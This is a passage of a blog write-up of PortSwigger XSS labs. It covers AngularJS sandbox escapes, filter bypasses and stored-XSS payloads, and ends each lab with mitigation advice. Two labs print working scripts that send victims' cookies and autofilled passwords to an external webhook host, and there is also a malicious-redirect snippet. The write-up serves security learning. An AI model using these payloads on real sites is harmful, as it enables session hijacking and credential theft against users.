  _**6. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**_  
  This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

  {: .box-note}
  **Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
     ~~~
     Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
     Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
     ~~~
  
  </details>
  -

</details>

## 3. Store-Based XSS
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs (Store-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

  _**1. Stored XSS into anchor href attribute with double quotes HTML-encoded**_  
  This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

  2. I use the search function in the inspection tab to look for the website I enter. And I find:
     ~~~
     Result: <a id="author" href="Website.com">Name</a>
     ~~~

  3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
     ~~~
     Website: javascript:alert('Zebra!')
     Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
     ~~~
   
  </details>
  -

  _**2. Stored DOM XSS**_  
  In this instance, the comment rendering is vulnerable to stored DOM‑based XSS because `escape()` only replaces the first `<`, `>` so I bypass it which leaves later tags unescaped, allowing arbitrary script execution when the page inserts comments into the DOM.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. Firstly, I look into the script used in the web application under the Network tab on the Inspection page. And I find there is an escape function using [replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)
     ```javascript
     function escapeHTML(html) {
         return html.replace('<', '&lt;').replace('>', '&gt;');
     }
     ```

     {: .box-note}
     **Note:** A string pattern will only be replaced once. To perform a global search and replace, use a regex with the g flag, or use replaceAll() instead.

  2. Now that I know only the first set of angle brackets is escaped and anything after that isn't, I craft my payload as:
     ~~~
     Payload: <><img src="x" onerror="prompt('I am escaped!')">
     Rendered:
     <p>
       &lt;&gt;
       <img src="x" onerror="prompt('I am escaped!')">
     </p>
     ~~~

  3. A prompt pops up with a message after I submit (store) the payload in the comment section, which indicates the filter mechanism (`replace()` function) was bypassed and the application is still vulnerable to XSS.

  _**Suggestion**_
  1. Make the escaping correct (use [global replacements or replaceAll/regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#description))
  2. Deploy [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline handlers, and protect cookies (HttpOnly/SameSite) to reduce impact.

  </details>
  -

  _**3. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**_  
  In this instance, I discover a Stored XSS vulnerability in the comment feature, specifically within the onclick event handler of anchor (`<a>`) elements. User input (from the “Website” field) is embedded directly into the JavaScript code inside an HTML attribute without applying proper context-specific encoding or sanitization. I was able to bypass the escaping and trigger the prompt by encoding my payload as an HTML entity.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

  2. I look into the inspection tab and pull out the syntax
     ```javascript
     <a id="author" href="Website"
     onclick="var tracker={track(){}};tracker.track('Website');">User_Name</a>
     ```
     
  3. I try to break out of the single quote in the `onclick` event, so when the user clicks an external link on the website, it will trigger the `onclick` event.
     But I notice that my single quote is escaped (`\'`), so the prompt isn't executed.
     ```javascript
     <a id="author" href="http://Website.com\'); prompt();//)"
     onclick="var tracker={track(){}};tracker.track('http://Website.com\'); prompt();//');">User_Name</a>
     ```
     {: .box-note}
     **Note:** The user input is used inside the `tracker.track()` call, enclosed in single quotes. So I close the first statement (`');`), insert the testing payload, then close the second statement (`prompt();`). Lastly, I use double forward slashes (`//`) to comment out the rest of the syntax.
     
  4. I use an additional backslash to neutralize the backslash that's meant to escape the single quote (`\'`), but it is also escaped (`\\\'`).

  5. To bypass this, I use [Cyberchef](https://cyberchef.io/#recipe=To_HTML_Entity(false,'Named%20entities')&input=Jyk7cHJvbXB0KCk7Ly8) to HTML-encode my payload. 
     ~~~
     Plain-text: ');prompt();//
     HTML-Entity: &apos;&rpar;&semi;prompt&lpar;&rpar;&semi;&sol;&sol;
     ~~~

  6. After submitting the website with the encoded payload appended, I successfully bypassed the filter. I can trigger the prompt by clicking the website’s external link, which proves the stored XSS vulnerability.
     ```javascript
     <a id="author" href="http://Website.com\'); prompt();//"
     onclick="var tracker={track(){}};tracker.track('http://Website.com\'); prompt();//');">tes</a>
     ```

  _**Suggestion**_
  1. Use JS and HTML attribute [context-aware output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) before rendering untrusted data inside event handlers or inline scripts. Avoid embedding untrusted user input directly into inline JavaScript.
  2. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in the “Website” field.
  3. Avoid writing event handlers directly inline in the HTML (e.g., `<button onclick="doSomething()">`), [separate the structure (HTML) from behavior (JavaScript)](https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Events#using_addeventlistener).
  4. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restricts script execution to trusted sources only.

  </details>
  -

  _**4. Store XSS in comment section to steal cookies**_  
  The web application contains a Stored XSS vulnerability in its comment section, I retrieve other users' cookie session by storing the persist JavaScript that executes in the browsers of other users who view the infected post.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. To start with, I leave a prompt function in the comment section of a post on the web application for testing the XSS vulnerability. After I refresh the page, a window pop up to prove it is vulnerable to XSS.

  2. To simulate a more realistic scenario, I leave JavaScript that causes other users' browsers to automatically post their session cookies to my controlled domain ([Webhook](https://webhook.site/)).
     ```javascript
     <script>
     fetch('https[://]webhook[.]site', {
       method: 'POST',
       mode: 'no-cors',
       body: document.cookie
     });
     </script>
     ```

  3. After retrieving the cookie, I can use it to impersonate the cookie owner for further exploitation.

  _**Suggestion**_
  1. Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) to safely handle rich-text or HTML input.
  2. [Escape characters](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) appropriately for the output context (HTML, JavaScript, or attributes).
  3. Set session cookies with the [HttpOnly](https://owasp.org/www-community/HttpOnly) and Secure flags to prevent access via JavaScript and enforce HTTPS usage
  4. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restrict script sources.
  5. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in all user input fields.

  </details>
  -

  _**5. Exploiting cross-site scripting to capture passwords**_  
  The web application is vulnerable to a stored XSS in the post comment section. This vulnerability allows an attacker to inject JavaScript function into user comments. When other users view the compromised comment, it executes in their browsers and automatically exfiltrating saved credentials from browser password managers by using a `fetch()` call to send the data to external domain.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. To start with, I leave a prompt function in the comment section of a post on the web application for testing the XSS vulnerability. After I refresh the page, a window pop up to prove it is vulnerable to XSS.

  2. To simulate a more realistic scenario. In the comment field of the post, I create two HTML input fields that cause users' password managers to automatically fill the saved username and password and forward them to my controlled domain. ([Webhook](https://webhook.site/)).
     ```javascript
     <input name=username id=username>
     <input type=password name=password onchange="if(this.value.length)fetch('https[://]webhook[.]site',{
       method: 'POST',
       mode: 'no-cors',
       body:username.value+':'+this.value
     });">
     ```

  3. After retrieving the users' credentials, I can use it to impersonate the cookie owner for further exploitation.

  _**Suggestion**_
  1. Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) to safely handle rich-text or HTML input.
  2. [Escape characters](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) appropriately for the output context (HTML, JavaScript, or attributes).
  3. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restrict script sources.
  4. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in all user input fields.
  5. On client-side, disable [autofill in sensitive contexts](https://cybernews.com/security/password-managers-autofill-credentials-for-attackers/).

  </details>
  -



</details>

### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
   ~~~
   src=x onerror="window.location.href='<$url>'"
   ~~~

### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>
